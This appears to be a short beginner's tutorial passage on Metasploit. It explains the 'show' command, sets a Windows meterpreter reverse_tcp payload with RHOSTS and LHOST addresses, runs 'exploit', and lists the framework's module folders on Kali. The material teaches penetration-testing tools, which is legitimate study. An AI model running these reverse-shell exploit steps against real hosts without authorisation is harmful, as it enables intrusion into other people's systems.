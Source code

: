   

**The show command**

It is used to display some key information such as payloads, options, targets, or modules.

  

    msf5 > show payloads
    
      
    
    msf5 > set PAYLOAD windows/x64/meterpreter/reverse_tcp
    
      
    
    msf5 > show options

  

"show options" display is partitioned into 2 sections.; the upper section is the exploit option, and the lower section is the payload options.

  

The format of these sections provides columns that;

1. Name of the variable or option

2. The value in the variable

3. Whether is it required

4. Description

  

    msf5 > set RHOSTS 192.168.1.101
    
    msf5 > set LHOST 192.168.1.102
    
      
    
    msf5 > show options
    
    msf5 > exploit
    
    meterpreter > sysinfo

  

**Metasploit Modules**

We can see the architecture of Metasploit from the command line in our BASH shell.

    kali > cd /usr/share/metasploit-framework
    
      
    
    kali > ls -l
    
      
    
    kali > modules
    
    kali > ls -l
    
    kali > cd exploits
    
    kali > ls -l

**Exploits a flaw or vulnerability in a system**
